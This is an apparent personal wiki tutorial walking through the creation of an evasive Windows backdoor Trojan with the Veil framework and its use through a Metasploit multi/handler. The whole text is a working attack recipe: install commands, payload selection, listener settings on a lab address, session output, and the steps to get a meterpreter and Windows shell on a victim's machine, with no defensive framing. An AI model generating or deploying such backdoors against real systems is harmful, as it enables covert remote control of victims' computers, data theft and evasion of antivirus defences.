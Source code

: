-----

* title: Creating backdoors with veil and metasploit
* description: This article is dedicated to Veil framework.
* created: 23-07-2021 16:14:00
* modified: 23-07-2021 16:14:00
* keywords: gnu, linux, admin, network, security, hacking, backdoor, exploit
* lang: en

-----

# Introduction

# Creating the backdoor

First install veil, but really this way, as the installation of veil will 
install tons of other stuff which will popup wizards etc and you will fail 
at some point anyway:

    apt update
    apt install -y veil
    /usr/share/veil/config/setup.sh --force --silent

Start veil as root user.

Use the Evasion tool:

    use 1

List the available payloads:

    list

This shows a list (41 items) of different payloads. In this case we want to 
create a reverse https connection. So that the infected machine will start 
the connection itself and which will then probably not blocked by the 
firewall or router. As the victim will probably have a local ip address.

The other important point, as we will use metasploit, we need to find a 
payload containing the word `meterpreter`, as they are the same authors as 
metasploit. For example payload 15.

    15)     go/meterpreter/rev_https.py

Select the desired payload:

    use 15

Show the options we should set:

    show options

Set the desired options:

    set LHOST 10.0.2.4
    set LPORT 8080

Finally, generate the backdoor:

    generate

Give a name to the output file:

    go_rev_https_8080

You get some information to where the output is generated. Which is:

    /var/lib/veil/output/compiled/

# Using the backdoor

Start the metasploit console with:

    msfconsole

Nos use a multi handler listener:

    use exploit/multi/handler

We need to select the same payload as we used to create the Trojan backdoor. 
But we can list all available payloads with `show payloads`. Which will 
return a list of `549` entries.

Set the payload:

    set PAYLOAD windows/meterpreter/reverse_https

See the available options we can/need to set

    show options

Set the required options

    set LHOST 10.0.2.4
    set LPORT 8080

Verify the options now and if needed, adjust them like we did before:

    show options

Now it's time to launch the exploit:

    exploit

You will see that the interpreter looks like this now:

    msf6 exploit(multi/handler) > exploit
    
    [*] Started HTTPS reverse handler on https://10.0.2.4:8080

It is now waiting that the victim runs the backdoor Trojan.

So on a Windows machine launch one of the created reverse HTTPS backdoor.

Once this happens, you will see that you are connected.

    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Staging x86 payload (176220 bytes) ...
    [!] https://10.0.2.4:8080 handling request from 10.0.2.5; (UUID: n9stxefm) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (10.0.2.4:8080 -> 127.0.0.1) at 2021-07-24 17:45:32 +0200
    
    meterpreter >

You can get system information with:

    sysinfo

And you can run other metasploit shell commands  But at this point 
your still not really on the Windows shell. 

To get the Windows shell, type

    shell

Now you have full access on the victims computer through the Windows shell